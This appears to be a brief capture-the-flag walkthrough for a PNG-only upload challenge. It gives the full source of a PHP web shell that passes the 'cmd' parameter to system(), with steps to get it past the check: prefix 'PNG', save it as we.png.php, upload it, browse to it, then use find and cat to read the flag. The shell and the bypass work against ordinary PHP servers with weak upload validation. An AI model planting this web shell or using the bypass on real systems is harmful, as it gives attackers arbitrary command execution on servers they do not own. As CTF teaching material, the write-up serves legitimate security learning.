 The website only accepts png images
I found a php webshell code:
png // The server only checks the first few characters to be “PNG”, so I put them at the beginning of the code
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
save this code e.g we.png.php
choose the file and upload it
visit the upload site /uploads/we.png.php
Find the flag using find / -name *.txt
Then cat to output the flag
